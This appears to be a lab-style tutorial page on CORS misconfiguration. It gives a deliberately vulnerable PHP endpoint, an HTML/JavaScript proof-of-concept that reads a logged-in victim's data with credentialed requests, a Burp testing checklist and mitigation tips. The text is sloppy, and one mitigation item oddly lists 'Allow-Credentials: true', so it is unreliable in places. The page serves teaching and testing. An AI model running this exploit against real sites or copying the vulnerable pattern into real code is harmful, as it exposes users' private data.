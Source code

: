 # CORS Attack

ow HTTP Headers

Access-Control-Allow: \* or \<origin> or null

Access-Control-Credentials:

if Access Access-Control-Credentials: true

**is Vulnerable CORS**

```php
<?php
session_start();

if($_SESSION['islogin'] != 1){
	header("Location: login.php");
	die();
}
#vulnerablity here
$origin = "mydomain.com";
if ( strpos(@$_SERVER['HTTP_ORIGIN'], "mydomain.com") ){
	$origin = @$_SERVER['HTTP_ORIGIN'];
}

header("Content-Type: application/json");
header("Access-Control-Allow-Origin: *");
header("Access-Control-Allow-Credentials: true");

echo '{"name":"Guest user", "phone number":"0234235","email":"email@gmail.com","adddress":"street 3","own books":["Book one","Book two","Book three"],"private books":["book 4","book 5"]}';
```

POS (if data json use Content-Type = application/json)

```jsx
<!DOCTYPE html>
<html>
<head>
    <script>
        function cors() {
            var xhttp = new XMLHttpRequest();
            url = "<url>";
            xhttp.onreadystatechange = function() {
                if (this.readyState == 4 && this.status == 200) {
                    // Display the response in an alert
                    alert(this.responseText);
                    // Or display the response in the demo div
                    document.getElementById("demo").innerHTML = this.responseText;
                }
            };
            xhttp.open("GET", url, true);
            xhttp.withCredentials = true;
            xhttp.send();
        }
    </script>
</head>
<body>
    <center>
        <h2>CORS PoC Exploit</h2>
        <div id="demo">
            <button type="button" onclick="cors()">Exploit</button>
        </div>
    </center>
</body>
</html>

```

I will try to find this vuln Uing Burpsuit Come with me!

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

in this request allow credentials if

#### Testing For CORS Vulnerabilities

1. remove/add a domain or like attckerlocalhost

* Map the application • Test the application for dynamic generation • Does it reflect the user-supplied ACAO header? • Does it only validate on the start/end of a specific string? • Does it allow the null origin? \* or yourdoamin,com • Does it restrict the protocol? HTTP or https | 80,8080 or any think • Does it allow credentials?

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Click exploit B000000000M!

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Mitigation

**1. restrict Allowed Origins**

**Access-control-Allow-Origin:** [**https://example.com**](https://example.com)

**2. Limit HTTP Methods**

**Access-control-Allow-Methods: GET, POST**

**3. Control Allowed Header**

**Access-Control-Allow-Headers: Content-Type, Authorization**

1. **Access-Control-Allow-Credentials: true**
2. **Validate Input and Origin**
3. **Content security Policy (CSP)**

**Content-Security-Policy: default-src 'self'; script-src 'self'** [**https://example.com**](https://example.com)

[http://localhost/labs/cors/info.php](http://localhost/labs/cors/info.php)
